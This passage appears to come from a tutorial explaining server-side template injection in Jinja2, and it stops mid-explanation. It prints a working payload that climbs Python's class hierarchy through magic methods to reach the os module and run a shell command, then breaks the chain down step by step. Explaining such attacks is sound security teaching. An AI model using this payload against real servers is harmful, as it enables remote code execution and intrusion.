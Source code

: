 foo = "myString"
print(type(foo))
<class 'str'> # output

Since everything is an object, Python by default provides some builtin methods called magic methods (which starts and ends with double underscore) such as

__init__

We saw that we could access built methods (like "string".upper()).

🔥 💥What if i told you that injecting this Python snippet:

{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}

will result with a remote code execution and the server will execute “ls” command and list back files and folders (play.py, static, template).
remote code execution result

I know that your first reaction will be 👇

Let me explain.

Remember that our end goal, is to get to ‘os’ module. To do so, we will be using the available magic methods.

Here’s a break down for the exploit,
jinja exploit (click to enlarge)

    Give me the class for “foo” string, it returns

    <class 'str'>

    Give me the name of the base class. In other words, give me the parent class that child class ‘str’ inherits from, it returns

    <class 'object'>

    👉 At this point, we are at class ‘object’ level.

    Give me all the child classes that inherits ‘object’ class, it returns a list

    [<class 'type'>, <class 'weakref'>, ....etc

    Give me the class that is located in index #182, this class is

    <class 'warnings.catch_warnings'>

    We chose this class, because it imports Python ‘sys’ module , and from ‘sys’ we can reach out to ‘os’ module.

    Give me the class constructor (__init__). Then call (__globals__) which returns a dictionary that holds the function’s global variables. From this dictionary, we just want [‘sys’] key which points to the sys module,

    <module 'sys' (built-in)>

    👉 At this point, we have reached the ‘sys’ module.

    ‘sys’ has a method called modules, it provides access to many builtin Python modules. We are just interested in ‘os’,
